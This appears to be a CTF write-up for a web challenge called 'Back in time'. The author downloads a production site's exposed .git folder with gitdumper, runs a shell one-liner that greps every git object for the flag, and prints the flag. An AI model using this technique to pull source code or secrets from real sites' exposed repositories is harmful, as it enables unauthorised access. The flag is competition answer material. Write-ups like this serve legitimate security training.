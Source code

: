 # Back in time

- Category: Web
- Rating: Medium

We're given a mostly empty webpage at `http://188.130.155.66:1111/sPgnbTpZuBMxGQBIpEMAkhqDSGAlaybE` with a git logo in the background. checking `http://188.130.155.66:1111/sPgnbTpZuBMxGQBIpEMAkhqDSGAlaybE/.git/` confirms that indeed someone forgot to remove their .git folder from theit production website. 

We start by downloading it using [gitdumper](https://github.com/internetwache/GitTools/tree/master/Dumper), and then we're obviously supposed to dig through the history... Unless someone figured out a way to grep through the entire history of a git repo.

![Imgur](https://i.imgur.com/nutnv2f.png)

Oh wait, tomnomnom has.

# Solution

```bash
$ { find .git/objects/pack/ -name "*.idx"|while read i;do git show-index < "$i"|awk '{print $2}';done;find .git/objects/ -type f|grep -v '/pack/'|awk -F'/' '{print $(NF-1)$NF}'; }|while read o;do git cat-file -p $o;done|grep -E 'InnoCTF'

find: ‘.git/objects/pack/’: No such file or directory
NOT A FLAG wDOwdnQzRGdqXxUJMgiVOraPRGdApUmUInnoCTF{nVBdAdtIqkOUUxFqKpypJIPCLpIQrZwr}NOT A FLAG GJuLumsBvtOzbCMchCMnRxIhcJkWKnyhtree e62734d8c2102bc86f2dde033a975741997d76fe
```

# Flag
`InnoCTF{nVBdAdtIqkOUUxFqKpypJIPCLpIQrZwr}`
